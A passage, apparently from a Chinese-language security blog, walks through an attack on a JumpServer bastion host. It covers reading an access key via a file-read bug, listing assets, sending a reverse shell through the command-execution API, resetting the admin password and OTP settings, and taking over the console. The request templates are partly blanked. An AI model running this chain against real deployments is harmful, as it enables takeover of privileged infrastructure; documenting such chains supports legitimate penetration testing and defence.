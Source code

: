 ```
    response = requests.get(full_url, auth=auth, headers=headers, verify=False)
    response = requests.post(full_url, auth=auth, headers=headers, data=None, verify=False)
    print(response.text)
```  
  
读取jumpserver  
的accesskey  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxJSMINz0YHydr07u4gH0ASccWTBwOS0wicWicaicjcjXbbicWAJIhMLAgxw/640?wx_fmt=png&from=appmsg "")  
  
获取主机列表，这里可以读取/etc/hostname  
确认jumpserver  
的主机名，找到对应的主机id  
```
GET /api/v1/assets/assets/?offset\=0&amp;limit\=15&amp;display\=1&amp;draw\=1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxyHyH9FDqEzvXicHdR7Ce913tvXKmxPWBpq1upypoTia4lcopd2f8IwtQ/640?wx_fmt=png&from=appmsg "")  
  
反弹shell，返回包中包含执行结果的url/api/v1/ops/celery/task//log/  
```
POST /api/v1/ops/command-executions/ HTTP/2
Host: 
User-Agent: python-requests/2.31.0
Accept: application/json
Date: 
Content-Length: 
Content-Type: application/x-www-form-urlencoded
Authorization: Signature
 
hosts=&amp;run_as=&amp;command=
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxQsu9q4mlRyGAIP2xbse1WHWaXAFKZmtZ2ic8zgujBq4gYgfTEuNfN8g/640?wx_fmt=png&from=appmsg "")  
  
根据官方文档重置管理员密码，如果存在OTP同样可以通过manage.py进行重置。如果管理员开启了强制OTP，重置之后可以在登录后重新绑定。  
```
user.mfa_level='0'
user.otp_secret_key=''
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCPa89EH5qk1JP9yLFP8VEaxcvu90xdQClYEJ2D7Ue3H413ltxa9iaCepLv4icfJlBN1NThY0ODSELPA/640?wx_fmt=png&from=appmsg "")  
  
最后以admin  
登录jumpserver  
控制台，接管堡垒机。  
# 小结  
  
文件读取漏洞在攻防场景下的影响比较有限，但是可以利用文件读取获取历史命令、私钥文件、配置文件等进一步攻击其他服务，继而获取权限或者数据。  
  
  

								  
